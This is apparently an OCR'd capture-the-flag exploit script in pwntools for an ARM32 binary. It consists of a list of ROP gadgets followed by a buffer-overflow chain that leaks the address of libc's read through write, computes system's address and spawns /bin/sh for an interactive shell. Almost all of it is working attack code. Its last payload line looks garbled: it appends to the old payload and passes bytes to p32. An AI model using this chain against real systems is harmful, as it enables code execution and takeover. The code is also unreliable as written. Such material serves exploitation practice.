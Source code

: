 ```plain
0x000104e0 : mov r2, sb ; mov r1, r8 ; mov r0, r7 ; ldr r3, [r5], #4 ; add r4, r4, #1 ; blx r3 ; cmp r6, r4 ; bne #0x104e0 ; pop {r4, r5, r6, r7, r8, sb, sl, pc}
0x000104a0 : mov r3, #0 ; mov r0, r3 ; pop {fp, pc}
0x0001047c : mov r3, #0 ; mov r0, r3 ; sub sp, fp, #4 ; pop {fp, pc}
0x00010418 : mov r3, #1 ; strb r3, [r4] ; pop {r4, pc}
0x000104dc : mov r4, #0 ; mov r2, sb ; mov r1, r8 ; mov r0, r7 ; ldr r3, [r5], #4 ; add r4, r4, #1 ; blx r3
0x000104dc : mov r4, #0 ; mov r2, sb ; mov r1, r8 ; mov r0, r7 ; ldr r3, [r5], #4 ; add r4, r4, #1 ; blx r3 ; cmp r6, r4 ; bne 
0x104e0 ; pop {r4, r5, r6, r7, r8, sb, sl, pc}
0x00010488 : pop {fp, pc}
0x00010488 : pop {fp, pc} ; andeq r0, r1, ip, lsl r5 ; andeq r0, r1, r4, lsr #10 ; push {fp, lr} ; add fp, sp, #4 ; bl #0x1042c ; mov r3, #0 ; mov r0, r3 ; pop {fp, pc}
0x000102e8 : pop {r3, pc}
0x00010420 : pop {r4, pc}
0x00010500 : pop {r4, r5, r6, r7, r8, sb, sl, pc}
"""

r4_r10_pc=0x00010500
write=elf.got['write']
read=elf.got['read']
bss=elf.bss()+0x100
bss_8=elf.bss()+0x108
ret_addr=elf.symbols['dofunc']

#pop {r4, r5, r6, r7, r8, sb, sl, pc}
again=0x000104e0
#mov r2, sb ; mov r1, r8 ; mov r0, r7 ; ldr r3, [r5], #4 ; add r4, r4, #1 ; blx r3 ; cmp r6, r4 ; bne #0x104e0 ; pop {r4, r5, r6, r7, r8, sb, sl, pc}
pc=0x00010500

ru("input:")
payload=flat([b'a'*12,r4_r10_pc,0,write,1,1,read,4,b'a'*4,pc])

payload+=flat([0,read,1,0,bss,0x10,b'a'*4,again])

payload+=flat([b'a'*4,b'a'*4,b'a'*4,b'a'*4,b'a'*4,b'a'*4,b'a'*4,ret_addr])

sl(payload)
ru('byebye')

read_real=uu32(r(4))
libcbase=read_real-libc.symbols['read']

system=libcbase+libc.symbols['system']

sl(p32(system)+b'/bin/sh\00')
ru("input:")

payload+=cyclic(12)+p32(r4_r10_pc)+p32(b'a'*4)+p32(bss)+p32(b'a'*4)+p32(bss_8)+p32(b'a'*4)+p32(b'a'*4)+p32(b'a'*4)+p32(again)

sl(payload)
p.interactive()
```

